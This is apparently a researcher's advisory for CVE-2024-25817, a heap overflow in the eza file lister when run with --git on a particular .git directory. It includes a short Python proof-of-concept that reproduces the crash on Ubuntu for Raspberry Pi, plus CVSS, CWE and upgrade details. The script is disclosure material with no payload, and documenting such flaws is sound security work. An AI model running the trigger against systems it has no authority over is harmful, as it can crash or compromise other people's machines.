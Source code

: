 ```yaml
---
title: "CVE-2024-25817"
published: 2024-02-07
updated: 2024-06-08
description: >-
  "In eza, there exists a potential heap overflow vulnerability, first seen when
  using Ubuntu for Raspberry Pi series system, on `ubuntu-raspi` kernel,
  relating to the `.git` directory."
tags: ["CVE"]
category: "CVE"
draft: false
---
```


# Summary

In `eza` [^1] (before `v0.18.11`), there exists a heap overflow vulnerability, first seen when using Ubuntu for Raspberry Pi series system, on `ubuntu-raspi` kernel, relating to the `.git` directory.

# Details

The vulnerability seems to be triggered by the `.git` directory in some projects. This issue may be related to specific files, and the directory structure also plays a role in triggering the vulnerability. Files/folders that may be involved in triggering the vulnerability include `.git/HEAD`, `.git/refs`, and `.git/objects`.

# PoC - If you have Raspberry Pi 4B bare metal machine

**If you don't have Raspberry Pi bare metal, you can try emulate a ubuntu for raspberry system in virtual machine.**

You just need install any one of Ubuntu for Raspberry Pi series system in your bare metal machine.

## Tested platform info

Configuration in `Raspberry Pi 4B` bare metal machine:

```bash
eza version: v0.18.10 [+git]

Linux lux 5.15.0-1049-raspi #52-Ubuntu SMP PREEMPT Thu Mar 14 08:39:42 UTC 2024 aarch64 aarch64 aarch64 GNU/Linux

Distributor ID: Ubuntu
Description: Ubuntu 22.04.4 LTS
Release: 22.04
Codename: jammy
```

> [!IMPORTANT]
> So far I have only tested the `Ubuntu 22.04.4 LTS Server` and confirmed that this vulnerability exists. I haven't test other System/Raspberry Pi yet.

## Steps

Install `eza (<=v0.18.10)` in Raspberry Pi. Process can refer to the official [wiki](https://github.com/eza-community/eza/blob/main/INSTALL.md).

```python
#!/usr/bin/env python3

import os
import shutil
import subprocess

# Step 1: Clone the repository
repo_url = "https://github.com/umami-software/umami.git"
subprocess.run(["git", "clone", repo_url])

# Step 2: Checkout to the specific commit contain the special '.git' directory that can trigger the vulnerability
repo_dir = "umami"
commit_hash = "a38baa5"
os.chdir(repo_dir)
subprocess.run(["git", "checkout", commit_hash])

# Step 3: Create a directory for the vulnerability related files
os.chdir("..")
os.mkdir("suspicious")
shutil.move(os.path.join(repo_dir, ".git"), "suspicious/.git")

# Step 4: Remove unrelated files/directories
shutil.rmtree(repo_dir)

# Step 5: Trigger the vulnerability
subprocess.run(["eza", "-l", "--git", "suspicious/.git"])
```

![](https://cdn.jsdmirror.com/gh/CuB3y0nd/picx-images-hosting@master/.23262laj6h.avif)

> [!NOTE]
> The picture shows my test environment. In actual testing, the vulnerability can be triggered by just using the above script.

# Impact

Arbitrary code execution.

# Severity using CVSS

Severity: `High 8.4`<br />
Vector string: `CVSS:3.1/AV:L/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`

# Weaknesses

- Heap-based Buffer Overflow (CWE-122)
- Improper Restriction of Operations within the Bounds of a Memory Buffer
  (CWE-119)
- Missing Release of Memory after Effective Lifetime (CWE-401)
- Improper Resource Shutdown or Release (CWE-404)
- Improper Initialization (CWE-665)

# GitHub Advisories

- GitHub Advisories.[^3]

# NIST

- National Vulnerability Database.[^4]

# Solution

Update eza to `0.18.11` or higher version.

# References

[^1]:
    [eza](https://github.com/eza-community/eza/tree/main): A modern,
    maintained replacement for ls.

[^3]: [GitHub Advisories](https://github.com/advisories/GHSA-3qx3-6hxr-j2ch)
[^4]: [CVE-2024-25817](https://nvd.nist.gov/vuln/detail/CVE-2024-25817)

